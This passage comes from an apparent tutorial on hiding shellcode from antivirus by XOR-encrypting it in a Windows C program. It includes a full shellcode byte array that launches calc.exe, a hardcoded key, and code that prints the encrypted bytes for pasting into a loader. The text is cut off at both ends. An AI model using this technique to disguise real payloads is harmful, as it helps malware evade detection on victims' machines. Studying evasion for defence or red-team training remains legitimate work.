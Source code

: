 	for (int i = 0; i < buf_len; i++) {
		key_char = pass[i % key_len];
		final[i] = buffer_src[i] ^ key_char;
	}
	return final;
}

int _tmain(int argc, TCHAR* argv[])
{
	unsigned char plain[] = 
		"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
		"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
		"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
		"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
		"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
		"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
		"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
		"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
		"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
		"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
		"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
		"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
		"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
	int buf_len = sizeof(plain);
	printf("[*] Sizeof initial payload is %d.\n", buf_len);
    unsigned char key[] = "alphaomega";
    int key_len = sizeof(key);

	unsigned char * encrypted = xor_encrypt(plain, key, buf_len, key_len);
 	unsigned char* test = xor_encrypt(encrypted, key, buf_len, key_len);

	if (memcmp(plain, test, buf_len) != 0) {
		printf("[*] Error - strings do not match.\n");
	}
	else {
		printf("[*] Strings match. Good to go. Copy pasta this:\n");
		print_in_hex(encrypted, buf_len);
	}
		
	return 0;
}
```

We'll modify the beginning of the main function so it reflects the following:
```
#include "Windows.h"
#include "stdio.h"

unsigned char* xor_encrypt(unsigned char* buffer_src, unsigned char* pass, int buf_len, int key_len) {
	key_len = key_len - 1;
	unsigned char* final = new unsigned char[buf_len];
	unsigned char key_char;
